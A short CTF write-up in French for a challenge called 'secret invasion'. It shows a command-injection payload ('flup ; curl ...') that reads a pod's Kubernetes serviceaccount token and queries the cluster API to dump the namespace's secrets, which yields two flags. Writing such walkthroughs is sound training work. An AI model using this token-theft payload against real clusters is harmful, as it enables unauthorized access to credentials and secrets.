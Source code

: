 # secret invasion

Il faut d'abord résoudre "look ma ! no php !"

Comme on peut exécuter tout et n'importe quoi depuis le pod qui héberge le
script PHP du challenge précédent, on peut se balader dedans, et se rendre
compte que le pod utilise un serviceAccount.

Il suffit alors de suivre la page
https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/#without-using-a-proxy,
dumper le fichier `/var/run/secrts/kubernetes.io/serviceaccount/namespace`, puis
d'effectuer un curl comme dans la doc officielle sur:

```
https://kubernetes.default.svc/api/v1/namespace/<namespace>/secrets
```

Ce qui nous donne le payload suivant:

```
flup ; curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
  --header "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" \
  -X GET https://kubernetes.default.svc/api/v1/namespaces/ctfinfra/secrets
```

Dans la sortie JSON, on retrouve 2 secrets encodés en base64, l'un étant le
flag du challenge php, l'autre étant le flag attendu pour ce challenge.
